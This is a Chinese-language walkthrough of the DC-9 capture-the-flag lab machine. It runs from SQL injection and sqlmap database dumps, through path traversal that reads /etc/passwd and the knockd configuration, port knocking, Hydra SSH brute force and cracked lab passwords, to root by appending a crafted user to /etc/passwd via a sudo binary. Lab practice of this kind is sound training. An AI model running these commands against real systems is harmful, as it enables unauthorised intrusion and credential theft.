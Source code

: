 DC-8的drupal不想再做了...

DC系列的最后一个靶机~

**环境配置**
导入OVA 运行后改NAT

**靶机ip**
192.168.136.168


## 信息收集
nmap -A -sC -sV -p1-65535 192.168.136.168 

nmap -A -p22 192.168.136.168 

发现ssh端口关闭

访问 http://192.168.136.168/ 也收集不到CMS相关的信息

whatweb扫一扫 也只能知道是 Apache[2.4.38]

我们手动测试审计CMS

在search处可能存在sql注入漏洞
PoC验证: 1' or 1=1 #
发现可以打印出全部信息
说明存在SQL注入漏洞且没有waf

也可以用AWVS扫出SQL注入漏洞 (演示)
kali:  https://kali2021:13443/

![img](DC-9/images/image-7.png)



直接sqlmap一把梭
是POST请求 复制后sqlmap启动
sqlmap -r post.txt --batch --dbs

得到database
```
available databases [3]:
[*] information_schema
[*] Staff
[*] users
```

先dump Staff库的数据
sqlmap -r post.txt --batch -D Staff --tables

sqlmap -r post.txt --batch -D Staff -T Users --dump

得到了admin的md5密码 856f5de590ef37314e7c3bdf6f8a66dc
md5解密 [在线网站](https://www.somd5.com/)

得到 `transorbital1`

尝试ssh登录
ssh admin@192.168.136.168 
还是无法连接

在Manage处用 admin transorbital1 登录

登录后点一圈(模拟审计)
发现没有可以利用的getshell的点

但是注意到这里
![img](DC-9/images/image-1.png)

结合网站开发时 一般都会用
```php
include("footer.php");
```

来渲染页底 所以猜测这里也存在文件包含
再次猜测这里参数名是file GET传参

PoC: ?file=../../../../../../etc/passwd
成功包含

然后查看发现没有admin用户... 所以ssh是连接不上的

接下来最自然的思路就是想要文件包含getshell

但是有几个点
- Apache服务器的日志位置不确定
- 写入webshell的位置不确定
- 没有pearcmd.php可以利用 (不是docker环境)

所以这条路也基本封死了


注意到前面的数据库我们还有user这个database没有dump
回去dump看看有没有/etc/passwd中显示的用户的密码

sqlmap -r post.txt --batch -D users --tables

sqlmap -r post.txt --batch -D users -T UserDetails --dump

dump得到的用户与/etc/passwd匹配！ (往下翻翻)

那我们的思路就比较明确了

靶机一共开了两个端口
80端口我们得到了数据库的账密信息 那么接下来的思路就是把ssh的20端口打开然后ssh连接getshell

![img](DC-9/images/image-2.png)

搜索发现有可能是Knockd隐藏了ssh端口 (看后面备课准备情况这里可以加入对原理的介绍分析 水时长)


我们查看一下靶机的Knockd配置
配置文件在 /etc/knockd.conf
我们文件包含查看
../../../../../../etc/knockd.conf

```
[options]
	UseSyslog

[openSSH]
	sequence    = 7469,8475,9842
	seq_timeout = 25
	command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
	tcpflags    = syn

[closeSSH]
	sequence    = 9842,8475,7469
	seq_timeout = 25
	command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
	tcpflags    = syn
```

接下来我们用nmap进行敲门打开ssh端口
for x in 7469 8475 9842; do nmap -p $x 192.168.136.168; done

![img](DC-9/images/image-3.png)

成功打开ssh端口

接下来想要ssh登录 但有个问题 这么多账密，手动测试显然不现实
直接上hydra爆破ssh

hydra -L username.txt -P password.txt 192.168.136.168 ssh -t 30

找到
```
[22][ssh] host: 192.168.136.168   login: chandlerb   password: UrAG0D!
[22][ssh] host: 192.168.136.168   login: janitor   password: Ilovepeepee

```



第一个转了转没啥用
试试第二个

尝试suid提权
find / -user root -perm -4000 -print 2>/dev/null

扫出了 chfn和chsh
这是有CVE能够提权的
![img](DC-9/images/image-4.png)

但是 查看靶机linux内核版本

uname -a
`Linux dc-9 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64 GNU/Linux`

发现是4.19 所以chfn和chsh提权用不了
sudo -l也不行

应该是存在其他有权限的用户

继续信息收集

ls -al

查看隐藏文件
发现 `.secrets-for-putin`
ls后发现 passwords-found-on-post-it-notes.txt
发现得到几个新的密码

我们加入到password.txt后继续hydra爆破
hydra -L username.txt -P password.txt 192.168.136.168 ssh -t 30

爆出来新的用户和密码

fredf B4-Tru3-001

ssh登录

发现有sudo -l了
![img](DC-9/images/image-5.png)

可以利用这个文件提权 /opt/devstuff/dist/test/test

查看看看
cat发现是乱码
file看发现是ELF可执行文件

直接运行提示
```
Usage: python test.py read append
```

返回 /opt/devstuff/dist/test/test 的上级目录 /opt/devstuff 查看
ls -al

发现 test.py
cat 查看py文件

这段代码根据命令行参数，读取一个文件的内容，并将其追加到另一个文件中。如果命令行参数不符合要求，将打印出用法信息。


**提权**
我们可以利用这个python代码将一个文件的内容读取后追加到另一个文件的功能
仿照/etc/passwd的格式 我们自己构造一个具有root权限的用户

我们使用openssl工具创建一个本地的加密用户，命令
```shell
openssl passwd -1 -salt admin admin
```

得到 $1$admin$1kgWpnZpUx.vTroWPXPIB0

然后把它按照passwd的格式送到 /tmp/user

```shell
echo 'admin:$1$admin$1kgWpnZpUx.vTroWPXPIB0:0:0::/root:/bin/bash' >> /tmp/user
```

使用sudo命令执行test文件将/tmp/user的内容写入到/etc/passwd文件中

```shell
sudo /opt/devstuff/dist/test/test /tmp/user /etc/passwd

B4-Tru3-001
```

添加成功后我们

su admin
admin

即可获得root权限
![img](DC-9/images/image-6.png)

Finished!